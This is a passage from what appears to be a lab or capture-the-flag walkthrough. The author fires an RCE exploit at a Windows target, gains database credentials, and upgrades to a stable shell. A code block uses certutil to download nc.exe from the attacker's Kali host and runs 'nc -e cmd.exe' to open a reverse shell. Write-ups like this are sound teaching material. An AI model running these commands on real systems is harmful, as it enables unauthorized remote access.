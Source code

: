 The only thing seems interesting here is RCE (the rest are client-side attacks), but the version number does not match. Anyway, I fired the exploit just to try because it is rather simple to run it and sometimes it will still work:

![](img/4.png)

Boom! The exploit still works (I was thinking about firing Gobuster if it didn't work). Now, I have an RCE and database credentials. After looking at the exploit code, it seems like an RCE attack via something like command injection. So, I decided to convert it to a more stable shell by running:

```
# on kali
nc -lvnp 443

# on the RCE: download netcat from kali and connect to kali
certutil -urlcache -split -f http://<kali ip>/nc.exe
nc -e cmd.exe <kali ip> 443
```
